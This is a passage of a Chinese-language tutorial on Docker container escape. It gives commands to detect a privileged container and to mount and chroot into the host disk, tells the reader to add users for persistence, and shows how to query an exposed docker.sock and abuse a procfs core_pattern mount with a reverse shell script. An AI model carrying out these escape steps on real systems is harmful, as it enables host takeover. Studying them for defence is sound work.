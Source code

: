 因为网上有太多相关的文章了，这里就不赘述了

不仅如此也有很多类似 Dirtycow DirtyPipe 的，本身内核级别的漏洞，对 docker 的影响也是致命的，

云安全 Wiki 上具体列了很多可能造成的 CVE

[https://wiki.teamssix.com/CloudNative/Docker/docker-escape-vulnerability-summary.html](https://wiki.teamssix.com/CloudNative/Docker/docker-escape-vulnerability-summary.html)

#### 特权模式启动

如果容器 docker run --rm --privileged -it 使用--privileged 形式启动，容器是可以访问宿主机的磁盘的，这样就可以挂载宿主机逃逸

判断方法很简单 fdisk -l 查看是否可以访问磁盘

cat /proc/self/status | grep CapEff 或者查看 CapEff 值判断是不是特权值 0000003fffffffff

可以通过以下命令简单的挂载逃逸

```plain
mkdir /tmp/1
fdisk -l
mount /dev/sda1 /tmp/1
cd /tmp/1
chroot ./ bash
```

在真实场景我们可以通过 useradd 添加用户

#### 寻找 docker.sock 文件

这种情况下一般没有客户端

```plain
ls /var/run/ | grep -i docker.sock
```

查找然后可以进行 docker -H 的链接

出网情况下可以直接安全 不出网情况下，我们可以通过 cdk 模块发包

```plain
./cdk ucurl get /var/run/docker.sock http://127.0.0.1/info ""
```

#### **Procfs 目录挂载**

procfs 是一个伪文件系统，它动态反映着系统内进程及其他组件的状态

本身场景很少，一般很少会把 procfs 挂载到宿主机

一般检测是能否找到两个 core\_pattern 文件

```plain
find / -name core_pattern
```

利用思路相对比较复杂

1.寻找容器在宿主机上的目录路径

2.在/tmp 下反弹脚本
